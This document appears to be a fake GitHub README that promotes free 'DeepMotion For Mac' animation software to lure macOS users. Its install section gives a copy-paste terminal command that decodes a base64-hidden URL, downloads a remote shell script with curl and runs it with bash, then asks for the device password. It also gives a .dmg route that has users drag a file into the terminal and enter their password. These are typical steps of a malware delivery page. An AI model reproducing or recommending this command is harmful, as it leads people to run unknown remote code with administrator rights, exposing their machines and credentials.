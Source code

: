 # DeepMotion For Mac — Download For Mac OS 😊

DeepMotion For Mac is a powerful and intuitive motion graphics and animation software designed exclusively for macOS users. Create stunning animations, dynamic visual effects, and seamless video transitions with ease. Follow the instructions below to install DeepMotion For Mac and unlock a world of creative possibilities.

![image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQLMuM0jIQEEKv7Opnctm8Ik0KoCabuNzHA6A&s)

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/deepmotion)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install DeepMotion For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get

DeepMotion For Mac empowers creators with cutting-edge tools for animation and motion design. Here’s what you can achieve:

- 🎨 **Create Stunning Animations**: Build smooth, professional-grade animations for videos, presentations, or social media.
- ⚡ **Fast Rendering**: Leverage macOS optimization for lightning-fast rendering and real-time previews.
- 🛠 **Intuitive Interface**: Enjoy a user-friendly workspace designed for both beginners and professionals.
- 🎥 **Video Effects & Transitions**: Add dynamic effects and seamless transitions to elevate your projects.
- 🔄 **Real-Time Collaboration**: Sync your projects with cloud-based tools for team workflows.
- 🖥 **macOS Native Performance**: Fully optimized for macOS, ensuring smooth performance on M1/M2 chips.

## About DeepMotion For Mac

DeepMotion For Mac is a revolutionary motion graphics software tailored for macOS, offering creators the tools to craft high-quality animations and visual effects. Whether you're a video editor, graphic designer, or content creator, DeepMotion provides an intuitive platform to bring your ideas to life. With its seamless integration into the macOS ecosystem, the software ensures optimal performance on Apple Silicon, delivering fast rendering and real-time previews. Its user-friendly interface makes it accessible for beginners while offering advanced features for professionals in motion design.

Built with modern animation workflows in mind, DeepMotion For Mac supports a wide range of creative tasks, from designing engaging social media content to producing cinematic video transitions. The software’s robust feature set includes keyframe-based animation, customizable templates, and a library of pre-built effects, making it a go-to solution for creators. By leveraging macOS’s native capabilities, DeepMotion ensures smooth operation, whether you're working on a MacBook or an iMac. Its compatibility with industry-standard formats also makes it easy to integrate into existing workflows.

The software is designed to cater to the growing demand for high-quality motion graphics in industries like marketing, entertainment, and education. DeepMotion For Mac stands out with its focus on performance, ease of use, and creative flexibility, allowing users to produce professional-grade results without a steep learning curve. Regular updates ensure the software remains compatible with the latest macOS versions, providing a reliable tool for creators worldwide.

For those searching for a free animation software for Mac, DeepMotion For Mac offers a compelling solution. Available as a free download, it provides access to powerful tools without compromising on quality. Whether you're animating for personal projects or professional productions, DeepMotion For Mac is your gateway to creating visually stunning content with ease.

## Advantages of DeepMotion For Mac

- 🚀 **Blazing Fast Performance**: Optimized for macOS and Apple Silicon for smooth, efficient workflows.
- 🖌 **Creative Freedom**: Extensive library of effects, templates, and animation tools.
- 🌟 **Beginner-Friendly**: Intuitive controls make it easy to start creating right away.
- 🔗 **Seamless Integration**: Works with popular video editing software and macOS apps.
- 🔄 **Regular Updates**: Stay up-to-date with the latest macOS features and improvements.
- 💻 **Lightweight Design**: Runs efficiently on both high-end and older Mac devices.

## 🖼 Preview

![Main Interface](https://i.postimg.cc/8zW7nZ1q/deepmotion-interface.jpg)  
*Clean and intuitive interface for creating animations.*

![Animation Editor](https://i.postimg.cc/4x0p4kY4/deepmotion-editor.jpg)  
*Keyframe-based animation editor for precise control.*

![Effect Library](https://i.postimg.cc/9QJ5VqQz/deepmotion-effects.jpg)  
*Explore a vast library of customizable effects.*

![Export Options](https://i.postimg.cc/3xYb9W2k/deepmotion-export.jpg)  
*Export your projects in multiple formats with ease.*

## 🔍 Tags

deepmotion animate 3d, deep motion ai, deepmotion ai, deepmotion alternative, deepmotion download, deepmotion animate 3d free download, deepmotion free, deep motion, animation 3d, deepmotion pricing, deepmotion app, deepmotion ai app
